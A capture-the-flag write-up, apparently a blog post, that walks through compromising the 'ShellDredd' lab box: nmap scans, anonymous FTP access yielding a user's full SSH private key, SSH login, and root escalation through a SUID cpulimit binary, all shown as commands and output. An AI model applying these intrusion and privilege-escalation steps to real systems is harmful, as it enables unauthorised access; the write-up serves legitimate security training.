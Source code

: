 ```yaml
---
layout: post
author: H4
---
```


This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery

Starting with a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- 192.168.76.130    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 14:41 EST
Nmap scan report for 192.168.76.130
Host is up (0.057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
```

Identifying the services.
```bash
$ nmap -Pn -p21,61000 -sV 192.168.76.130
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 14:57 EST
Nmap scan report for 192.168.76.130
Host is up (0.033s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

> So, the service on port `61000` is `ssh`.
{: .prompt-info }

---

# exploitation

## port 21 (`ftp`)
```bash
$ ftp 192.168.76.130
Connected to 192.168.76.130.
220 (vsFTPd 3.0.3)
Name (192.168.76.130:void): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

> Anonymous access is allowed!
{: .prompt-info }

### investigating the `ftp` service
```bash
ftp> dir -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> dir -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```

### downloading the `id_rsa` file
```bash
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
226 Transfer complete.
1823 bytes received in 0.00 secs (12.4182 MB/s)
ftp> exit
221 Goodbye.

$ cat id_rsa           
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA1+dMq5Furk3CdxomSts5UsflONuLrAhtWzxvzmDk/fwk9ZZJMYSr
/B76klXVvqrJrZaSPuFhpRiuNr6VybSTrHB3Db7cbJvNrYiovyOOI92fsQ4EDQ1tssS0WR
6iOBdS9dndBF17vOqtHgJIIJPGgCsGpVKXkkMZUbDZDMibs4A26oXjdhjNs74npBq8gqvX
Y4RltqCayDQ67g3tLw8Gpe556tIxt1OlfNWp3mgCxVLE1/FE9S6JP+LeJtF6ctnzMIfdmd
GtlWLJdFmA4Rek1VxEEOskzP/jW9LXn2ebrRd3yG6SEO6o9+uUzLUr3tv9eLSR63Lkh1jz
n5GAP3ogHwAAA8hHmUHbR5lB2wAAAAdzc2gtcnNhAAABAQDX50yrkW6uTcJ3GiZK2zlSx+
U424usCG1bPG/OYOT9/CT1lkkxhKv8HvqSVdW+qsmtlpI+4WGlGK42vpXJtJOscHcNvtxs
m82tiKi/I44j3Z+xDgQNDW2yxLRZHqI4F1L12d0EXXu86q0eAkggk8aAKwalUpeSQxlRsN
kMyJuzgDbqheN2GM2zviekGryCq9djhGW2oJrINDruDe0vDwal7nnq0jG3U6V81aneaALF
UsTX8UT1Lok/4t4m0Xpy2fMwh92Z0a2VYsl0WYDhF6TVXEQQ6yTM/+Nb0tefZ5utF3fIbp
IQ7qj365TMtSve2/14tJHrcuSHWPOfkYA/eiAfAAAAAwEAAQAAAQEAmGDIvfYgtahv7Xtp
Nz/OD1zBrQVWaI5yEAhxqKi+NXu14ha1hdtrPr/mfU1TVARZ3sf8Y6DSN6FZo42TTg7Cgt
vFStA/5e94lFd1MaG4ehu6z01jEos9twQZfSSfvRLJHHctBB2ubUD7+cgGe+eQG3lCcX//
Nd1hi0RTjDAxo9c342/cLR/h3NzU53u7UZJ0U3JLgorUVyonN79zy1VzawL47DocD4DoWC
g8UNdChGGIicgM26OSp28naYNA/5gEEqVGyoh6kyU35qSSLvdGErTMZxVhIfWMVK0hEJGK
yyR15GMmBzDG1PWUqzgbgsJdsHuicEr8CCpaqTEBGpa28QAAAIAoQ2RvULGSqDDu2Salj/
RrfUui6lVd+yo+X7yS8gP6lxsM9in0vUCR3rC/i4yG0WhxsK3GuzfMMdJ82Qc2mQKuc05S
I96Ra9lQolZTZ8orWNkVWrlXF5uiQrbUJ/N5Fld1nvShgYIqSjBKVoFjO5PH4c5aspX5iv
td/kdikaEKmAAAAIEA8tWZGNKyc+pUslJ3nuiPNZzAZMgSp8ZL65TXx+2D1XxR+OnP2Bcd
aHsRkeLw4Mu1JYtk1uLHuQ2OUPm1IZT8XtqmuLo1XMKOC5tAxsj0IpgGPoJf8/2xUqz9tK
LOJK7HN+iwdohkkde9njtfl5Jotq4I5SqKTtIBrtaEjjKZCwUAAACBAOOb6qhGECMwVKCK
9izhqkaCr5j8gtHYBLkHG1Dot3cS4kYvoJ4Xd6AmGnQvB1Bm2PAIA+LurbXpmEp9sQ9+m8
Yy9ZpuPiSXuNdUknlGY6kl+ZY46aes/P5pa34Zk1jWOXw68q86tOUus0A1Gbk1wkaWddye
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

> It seems we got a `ssh` key for user `hannah`.
{: .prompt-info }

## port 61000 (`ssh`)
Now we check if we can login with `hannah` using the `ssh` key we just found.
```bash
$ chmod 600 id_rsa 

$ ssh -i id_rsa hannah@192.168.76.130 -p 61000 
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ id
uid=1000(hannah) gid=1000(hannah) groups=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

> We got a shell!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ cat local.txt 
6******************************9
```

## privilege escalation
We start with looking for `SUID` binaries, to check if we can escalate the easy way.
```bash
hannah@ShellDredd:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwxr-sr-x 1 root tty 34896 Jan 10  2019 /usr/bin/wall
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-sr-x 1 root root 121976 Mar 23  2012 /usr/bin/mawk
-rwxr-sr-x 1 root ssh 321672 Jan 31  2020 /usr/bin/ssh-agent
-rwxr-sr-x 1 root crontab 43568 Oct 11  2019 /usr/bin/crontab
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwsr-sr-x 1 root root 23072 Jun 23  2017 /usr/bin/cpulimit
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwxr-sr-x 1 root mail 18944 Dec  3  2017 /usr/bin/dotlockfile
```

Checking the results reveals that `mawk` and `cpulimit` may be used for privilege escalation. We will use `cpulimit`. Checking ![gtfobins](https://gtfobins.github.io/gtfobins/cpulimit/#suid) shows us how to get `root` access.

```
hannah@ShellDredd:~$ cpulimit -l 100 -f -- /bin/sh -p
Process 1289 detected
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
```

> Root root!
{: .prompt-info }

## get second flag
```bash
# cd /root
# ls
proof.txt  root.txt
# cat proof.txt
a******************************f
```

Pwned! <@:-)
